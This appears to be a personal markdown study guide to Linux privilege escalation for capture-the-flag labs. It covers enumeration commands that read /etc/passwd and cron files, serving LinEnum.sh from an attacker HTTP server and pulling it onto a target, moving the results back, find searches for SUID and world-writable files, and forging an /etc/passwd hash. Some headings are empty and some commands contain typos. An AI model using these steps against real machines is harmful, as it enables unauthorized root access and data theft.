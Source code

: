 # Linux Privilege Escalation


## Initial checklist

1. Determining the kernel of the machine (kernel exploitation such as Dirtyc0w)
2. Locating other services running or applications installed that may be abusable (SUID & out of date software)
3. Looking for automated scripts like backup scripts (exploiting crontabs)
4. Credentials (user accounts, application config files..)
5. Mis-configured file and directory permissions  

## Enumeration

### Query the System

`:> hostname` : Query the hostname  

`:> uname -a`  : Query Kernel information  

`:> cat /etc/passwd`  :  Identify system users  

`:> cat /etc/shells` : Identify potentially useful shells on the system

`:> cat /etc/crontab` : List cron jobs

`:> cat /proc/version` : Specifics about the kern verion and the GCC compilers use to build the kernel  

`:> cat /etc/issue` : Contains the pre-login prompt and can be changed



### LinEnum.sh to Exfiltrate the system information

Get LinEnum.sh onto the attacking device

`:> wget -O LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/refs/heads/master/LinEnum.sh`

Gain access to the target machine

![Logged In](assets/Linux-PrivEsc-01-LinEnum-01.png)

Open a simple server on the attacking device in the directory from where LinEnum can be transported.

`:> python3 -m http.server 8888`

![Python Server](assets/Linux-PrivEsc-01-LinEnum-02.png)  

On the target device, set up a location from where the script will run.  

![Target Locationls](assets/Linux-PrivEsc-01-LinEnum-03.png)  

Pull the script from the python server to the target device.  

`:> wget 10.201.47.243:8888/LinEnum.sh`

The serving attacker logs the "GET" request and the target device recevies the script

![wget LinEnum](assets/Linux-PrivEsc-01-LinEnum-04a.png)  

If the target device is permitted a WAN connection, pull the script from GitHub.

`:> wget -O LinEnumFromGit.sh https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh`  

Add execution privileges to the script 

`:> chmod +x LinEnum.py`

![with exeuction](assets/Linux-PrivEsc-01-LinEnum-05.png)  

Run the script and output to a file that can be studied for escalation opportunities

`:> ./LinEnum.sh > enum.txt`

Shutdown the server on the attacking device

![Server Shutdown](assets/Linux-PrivEsc-01-LinEnum-06.png)  

Reverse the server setup and transfer the enum.txt to the attacking device for analysis and resource development.

![Data Exfiltration](assets/Linux-PrivEsc-01-LinEnum-07.png)

### Use FIND to identify useful file properties and attributes  

`:> find . -name "*string*` : find all files in the current directory whose name contains 'string'  
`:> find . -name flag1.txt` : find the files in the current directory with the name "flag1.txt”  
`:> find /home -name flag1.txt` : find the files in the /home directory with the name “flag1.txt”  
`:> find / -type d -name config` : recursively search from the root directory to find the directory named config  
`:> find / -type f -perm 777` : recursively search from the root directory and list all files with the 777 permissions (files readable, writable, and executable by all users)  
`:> find / -perm a=x` : recursively search from the root directory and list all executable files  
`:> find /home -user frank` : recursively search from the /home directory and list all files for user “frank”  
`:> find / -mtime 10` : recursively search from the root directory and list all files modified in the last 10 days  
`:> find / -atime 10` : recursively search from the root directory and list all files accessed in the last 10 days  
`:> find / -cmin -60` : recursively search from the root directory and list all files changed within the last hour (60 minutes)  
`:> find / -amin -60` : recursively search from the root directory and list all files accessed within the last hour  
`:> find / -size 50M` : recursively search from the root directory and list all files 50 MB in size  
`:> find / =writable -type d 2>/dev/null` : recursively search from the root directory and list all world-writeable directories  
`:> find / -perm -222 -type d 2>/dev/null` : recursively search from the root directory and list all world-writeable directories  
`:> find / -perm -o w -type d 2>/dev/null` : recursively search from the root directory and list all world-writeable directories  
`:> find / -perm -o x -type d 2>/dev/null` : recursively search from the root directory and list all world-executable directories  
`:> find / -name perl* OR python* OR gcc*` : recursively search from the root directory and list development tools / supported languages  
`:> find / -perm -u=s -type f 2>/dev/null` : recursively search from the root directory and list all files where special privileges are set for everyone.  
`:> find / -perm /1000` : recursively search from the root directory and list objects with the sticky bit set  
`:> find / -perm /2000` : recursively search from the root directory and list objects with the SGID bit set  
`:> find / -perm /4000` : recursively search from the root directory and list objects with the SUID bit set  
  
## Authentication Bypass  

### SUID/GUID 

### Writeable /etc/passwd files  

#### Entry format  

[username] : [password] : [userID] : [groupID] : [Info] : [home-directory] : [path-to-shell]

#### Generate compliant password hash


`:> openssl-passwd -1 -salt [salt] [password]`  

``
## Escaping the Vi editor

## Exploit Crontab

## Exploiting the PATH variable

## Other References

[Internal All The Things](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/linux-privilege-escalation/)  
[David Varghese Writeup - Linux Privilege Escalation](https://david-varghese.medium.com/tryhackme-linux-privesc-9ea2cfac3b76)  
[Christine Nec Writeup - Linux Privilege Escalation](https://dev.to/christinec_dev/try-hack-me-linux-privesc-complete-write-up-20fg)  